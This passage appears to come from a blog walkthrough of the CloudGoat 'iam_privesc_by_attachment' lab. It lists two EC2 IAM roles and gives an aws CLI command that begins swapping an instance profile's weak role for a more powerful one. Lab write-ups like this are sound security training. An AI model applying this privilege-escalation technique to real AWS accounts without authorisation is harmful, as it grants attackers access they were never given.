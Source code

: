 Result:
```json
{
    "Roles": [
        {
            "RoleName": "cg-ec2-meek-role-iam_privesc_by_attachment_###",
            "Arn": "arn:aws:iam::###:role/cg-ec2-meek-role-iam_privesc_by_attachment_###",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "ec2.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            }
        },
        {
            "RoleName": "cg-ec2-mighty-role-iam_privesc_by_attachment_###",
            "Arn": "arn:aws:iam::###:role/cg-ec2-mighty-role-iam_privesc_by_attachment_###",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "ec2.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            }
        }
    ]
}
```

There are 2 interesting roles. We knew that our instance profile are using the `cg-ec2-meek-role-iam_privesc_by_attachment_###` role, and we will change the instance profile to use the `cg-ec2-mighty-role-iam_privesc_by_attachment_###` role.

To make the blog shorter, I will assume that we knew the `cg-ec2-meek-role-iam_privesc_by_attachment_###` role doesn't have any permission. You can explore by creating new ec2 instance with the `cg-ec2-meek-instance-profile-iam_privesc_by_attachment_###` instance profile.
{: .notice--info}

### Remove role from instance profile
```shell
aws --profile kerrigan iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_### --role-name cg-ec2-meek-role-iam_privesc_by_attachment_###
```
